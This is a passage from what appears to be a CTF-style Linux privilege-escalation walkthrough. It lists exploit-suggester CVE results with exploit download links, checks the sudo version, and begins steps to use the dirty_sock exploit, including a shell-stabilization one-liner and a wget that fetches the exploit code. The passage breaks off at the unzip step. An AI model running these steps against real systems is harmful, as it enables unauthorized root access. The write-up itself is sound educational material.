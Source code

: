 ```console
[+] [CVE-2019-18634] sudo pwfeedback

   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
   Exposure: less probable
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL: 
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154

[+] [CVE-2017-0358] ntfs-3g-modprobe

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1072
   Exposure: less probable
   Tags: ubuntu=16.04{ntfs-3g:2015.3.14AR.1-1build1},debian=7.0{ntfs-3g:2012.1.15AR.5-2.1+deb7u2},debian=8.0{ntfs-3g:2014.2.15AR.2-1+deb8u2}
   Download URL: https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/41356.zip
   Comments: Distros use own versioning scheme. Manual verification needed. Linux headers must be installed. System must have at least two CPU cores.
```
So from the above if we check the sudo version we get this as output,
```console
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```
So according to the sudo exploit called Baron Samedit is not exploitable to the sudo version of the kernel in this case.But as we notice that there is an exploit called dirty_sock which can be vulnerable to the kernel version of the machine.So let's exploit it and make our hands dirty.

**Steps :-**

1) Stablize the shell first.
```console
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
2) Navigate to /tmp directory and via wget command we can get grab the dirty_sock exploit.
```console   
wget https://github.com/initstring/dirty_sock/archive/master.zip
```
3) Unzip the master.zip file and navigate to dirty_sock-master directory.
